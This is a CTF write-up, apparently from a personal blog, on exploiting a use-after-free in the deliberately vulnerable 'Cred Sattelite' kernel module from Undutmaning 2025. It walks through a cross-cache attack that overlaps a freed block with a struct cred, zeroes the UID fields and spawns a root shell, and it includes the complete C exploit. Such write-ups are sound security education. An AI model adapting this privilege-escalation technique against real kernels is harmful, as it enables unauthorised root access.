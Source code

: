 ```yaml
---
title: Cred Sattelite - Undutmaning 2025 
description: Exploiting a User-After-Free in a kernel module to corrupt cred structure across caches, and gain priveledge escalation.
date: 1744130816
tags:
  - Writeup
  - Binary Exploitation
  - Kernel
slug: Cred Sattelite - Undutmaning 2025
published: true
---
```




I recently played solo in the Undutmaning, which is a Swedish CTF organized by the Swedish Security Agencies. I solved all pwn challenges except for this one, a kernel pwn challenge, which had 0 solves by the end of the CTF.



## Challenge Overview
You are given a script to run the linux VM, a CPIO and a vulnerable kernel module, along with it's <a href="/cred-sattelite.c">**source**</a>. In the kernel module you ahve the following actions that you can take through IOCTLing the device:

1. Allocate a block
2. Set a block as your "current" block
3. Free a block
4. "Reset" your current block, aka zero out the value field, and a bit beyond that.
5. Reset the module, free all blocks and null out your current block.



## Vulnerability Analysis
The main vulnerability in the module is a Use-After-Free, where you can free a data block, and then keep a reference to it as the "current block". Using this reference you run reset_current_block which zeroes 24 bytes in the block.

Arbitrarily zeroing 24 bytes in a dangling reference seems like a very specific primitive, but if you manage to allocate a struct cred (hinted at by the challenge name "cred sattelite"), then this zeroing will zero out UIDs of the credential.

## Exploitation Strategy
What complicates the exploitation a bit is that cred struct have their own slab cache, called the **cred_jar** This means we need to do a cross-cache attack, we need to have the UAF be freed back into the page allocator, then allocated by the cred jar, then have the struct be allocated there. 

This is done with the following way:
1. Saturate cred jar, so that the next allocation of creds needs a call to page allocator. This can be done through a large amount of forks, which will make the kernel allocate many cred structs, without dropping them.
2. Allocate many pages of data_block
3. Save a current block 
4. Free all your blocks, now the data_block you saved is out in the page allocator
5. Allocate a cred structure. This will make the slab allocator request a new page due to the setup we did beforehand. This page will be grabbed up from page allocator, same one we have our current_block on.


- NOTE: We don't have to make another fork, it will be a lot easier to do **setuid(getuid()).** The struct cred is a Copy-On-Write structure, so it gets reallocated every time you write to it, and then just the references are swapped.

6. Now that we have overlapping current_block and struct_cred we can zero out uid fields through ``reset_current_block``
7. Now we have root! Pop shell and you're finished.

## Implementation
```c
#include <fcntl.h>
#include <sched.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/fsuid.h>
#include <sys/ioctl.h>
#include <sys/wait.h>
#include <unistd.h>

#define IOCTL_FREE 0x1337
#define IOCTL_ALLOC 0x1338
#define IOCTL_SET_CURRENT 0x1339
#define IOCTL_RESET_CURRENT 0x1340
#define IOCTL_RESET_MODULE 0x1341

#define MAX_BLOCKS 1000

int global_fd;

void open_chardev() {
  char *dev_path = "/dev/cred-block-module";
  global_fd = open(dev_path, O_RDWR);
  printf("[*] Opened %s into %d\n", dev_path, global_fd);
}

void cred_alloc() { ioctl(global_fd, IOCTL_ALLOC); }

void set_current(int n) { ioctl(global_fd, IOCTL_SET_CURRENT, n); }

void free_all() {
  for (int i = 0; i < 1000; i++) {
    ioctl(global_fd, IOCTL_FREE, i);
  }
}

void reset_current() { ioctl(global_fd, IOCTL_RESET_CURRENT); }


int main(int argc, char *argv[]) {
  open_chardev();
  int initial_forks = 224;

  printf("[*] Making %d forks to drain cred struct\n", initial_forks);
  for (int i = 0; i < initial_forks; i++) {
    if (fork() == 0) {
      sleep(60);
      exit(0);
    }
  }

  int CREDALLOC = 1000;
  printf("[*] Making %d data_block allocations\n", CREDALLOC);
  for (int i = 0; i < CREDALLOC; i++) {
    cred_alloc();
  }

  set_current(876);

  free_all();

  printf("[*] Reallocating cred_struct of current process.\n");
  printf("[*] [This triggers page allocator, to give back what current points to]\n");
  setuid(getuid());


  printf("[*] Now cred struct overlaps with current block\n");
  reset_current();
  printf("[*] reset_current() to zero out uid fields\n");
  printf("[*] UID: %d\n", getuid());

  system("/bin/sh");
  return 0;
}
